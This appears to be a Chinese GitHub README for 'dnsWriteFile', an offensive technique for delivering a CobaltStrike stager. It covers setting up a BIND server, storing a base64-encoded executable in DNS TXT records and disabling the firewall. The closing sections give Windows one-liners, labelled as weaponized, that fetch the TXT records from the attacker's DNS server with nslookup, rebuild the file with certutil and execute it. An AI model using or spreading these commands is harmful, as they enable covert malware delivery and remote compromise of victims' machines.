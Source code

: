 # dnsWriteFile
使用方法如下：
# 安装dns服务器

### 安装 BIND

```
yum -y update
yum -y install bind bind-chroot bind-utils
```

### 修改 BIND 配置文件，允许其他主机使用 DNS 服务

```
vim /etc/named.conf

options {
    # 监听来自于所有打到53端口的请求
    listen-on port 53 { any; };
    # 允许来自任意host的DNS查询
    allow-query     { any; };
    # 转发逻辑为：服务器将只会请求 forwarders中的DNS主机，请求失败时，将直接应答fail

    # 如果不将自己的服务器作为转发服务器，则无需配置forward和forwarders，此时所有的解析将按照之前的迭代查询方式进行查询
    # 转发服务器列表：8.8.8.8
    forwarders  { 8.8.8.8; };
}
```

`/etc/named.conf` 整体文件如下

```·
options {
   listen-on port 53 { any; };
   listen-on-v6 port 53 { ::1; };
   directory    "/var/named";
   dump-file    "/var/named/data/cache_dump.db";
   statistics-file "/var/named/data/named_stats.txt";
   memstatistics-file "/var/named/data/named_mem_stats.txt";
   allow-query     { any; };
   forwarders     { 8.8.8.8; };
        recursion yes;

        dnssec-enable yes;
        dnssec-validation yes;
        managed-keys-directory "/var/named/dynamic";
        pid-file "/run/named/named.pid";
        session-keyfile "/run/named/session.key";
        include "/etc/crypto-policies/back-ends/bind.config";
};

logging {
        channel default_debug {
                file "data/named.run";
                severity dynamic;
        };
};

zone "." IN {
        type hint;
        file "named.ca";
};

include "/etc/named.rfc1912.zones";
include "/etc/named.root.key";
```

### 添加我们要解析的域名

在辅助区域配置文件`/etc/named.rfc1912.zones`中，添加一条我们自己创建的区域

```
zone "mydomain.com" IN {
        type master;
        file "mydomain.com.zone";
        allow-update { none; };
};
```

`/etc/named.rfc1912.zones` 整体文件如下

```·
// named.rfc1912.zones:
//
// Provided by Red Hat caching-nameserver package 
//
// ISC BIND named zone configuration for zones recommended by
// RFC 1912 section 4.1 : localhost TLDs and address zones
// and https://tools.ietf.org/html/rfc6303
// (c)2007 R W Franks
// 
// See /usr/share/doc/bind*/sample/ for example named configuration files.
//
// Note: empty-zones-enable yes; option is default.
// If private ranges should be forwarded, add 
// disable-empty-zone "."; into options
// 

zone "mydomain.com" IN {
        type master;
        file "mydomain.com.zone";
};

zone "localhost.localdomain" IN {
        type master;
        file "named.localhost";
        allow-update { none; };
};

zone "localhost" IN {
        type master;
        file "named.localhost";
        allow-update { none; };
};

zone "1.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.ip6.arpa" IN {
        type master;
        file "named.loopback";
        allow-update { none; };
};

zone "1.0.0.127.in-addr.arpa" IN {
        type master;
        file "named.loopback";
        allow-update { none; };
};

zone "0.in-addr.arpa" IN {
        type master;
        file "named.empty";
        allow-update { none; };
};
```

### 为解析的域名设置 TXT 等记录的值

我们直接复制一份 `/var/named/` 目录下的 `named.localhost` ，使用 `cp -a` 会直接把对应的权限设置也一并 `copy` 给新文件 `mydomain.com.zone`

```
cp -a /var/named/named.localhost /var/named/mydomain.com.zone
```

添加txt值的`/var/named/mydomain.com.zone`整体文件如下：

```·
$TTL 1D
@       IN SOA  @ rname.invalid. (
                                        0       ; serial
                                        1D      ; refresh
                                        1H      ; retry
                                        1W      ; expire
                                        3H )    ; minimum
        NS      @
        A       127.0.0.1
        AAAA    ::1
www     IN A    1.1.1.1
www1     IN TXT  "exechello world"
```

### 启动 BIND 服务

```
systemctl start named
```

### 关闭防火墙

```·
systemctl stop firewalld
```

### 测试

```·
nslookup -qt=TXT www.mydomain.com your_dns_ip
```

### 超长字符注意

```·
$TTL 1D
@       IN SOA  @ rname.invalid. (
                                        0       ; serial
                                        1D      ; refresh
                                        1H      ; retry
                                        1W      ; expire
                                        3H )    ; minimum
        NS      @
        A       127.0.0.1
        AAAA    ::1
www     IN A    1.1.1.1
www1     IN TXT  ("exechello world"
"nihao"
"test"
"123")

```


### UDP 包大小限制

上一个大坑解决以后，我以为可以任意字符写入了，最终在搞定了其他条件后，测试的时候发现，一个 `70k` 的程序 `base64` 后的结果填充到 `TXT` 记录后，重启DNS服务怎么也启动不起来，我这才意识到，可能 BIND 自己也有一定长度字符限制，通过 fuzz 我也找到了 BIND 最大的字符限制，大概 60000多

为啥我没有记得这么清晰呢？因为当我设置为最大值的时候，我发现 `nslookup` 竟然报错了

后来我查阅了一些资料明白过来，DNS请求和回应包都是 UDP包，UDP包最大长度为 `65535`，还有一些头会占用部分长度，所以留给 `TXT` 记录的长度最长也就是 `65515` 左右

好在 CobaltStrike 生成的 `stege` 木马仅有 `14K`左右, 远小于 65515

### 重启 DNS 服务

```
systemctl restart named
```

### CS上线


文件较小

```·
cmd /v:on /Q /c "set a= && set b= && for /f "tokens=*" %i in ('nslookup -qt^=TXT www.mydomain.com your_dns_ip ^| findstr "exec"') do (set a=%i && echo !a:~5,-2!)" > ttt.txt && certutil -decode ttt.txt a.exe && cmd /c a.exe
```

文件较大

先请求成为各个txt

```html
cmd /v:on /Q /c "set a= && set b= && for /f "tokens=*" %i in ('nslookup -qt^=TXT www.mydomain.com your_dns_ip ^| findstr "exec"') do (set a=%i && echo !a:~5,-2!)" >>ttt.txt
```

```html
for /l %k in (0,1,31) do (cmd /v:on /Q /c "set a= && set b= && for /f "tokens=*" %i in ('nslookup -qt^=TXT www%k.mydomain.com your_dns_ip ^| findstr "exec"') do (set a=%i && echo !a:~5,-2!)" >>C:\helo.txt) 
```

```html
certutil -decode C:\helo.txt C:\aa.exe && cmd /c C:\aa.exe
```

### 武器化

dnsWriteFile.py

```·
for /l %k in (0,1,31) do (cmd /v:on /Q /c "set a= && set b= && for /f "tokens=*" %i in ('nslookup -qt^=TXT www%k.mydomain.com your_dns_ip ^| findstr "exec"') do (set a=%i && echo !a:~5,-2!)" >>C:\helo.txt)
```
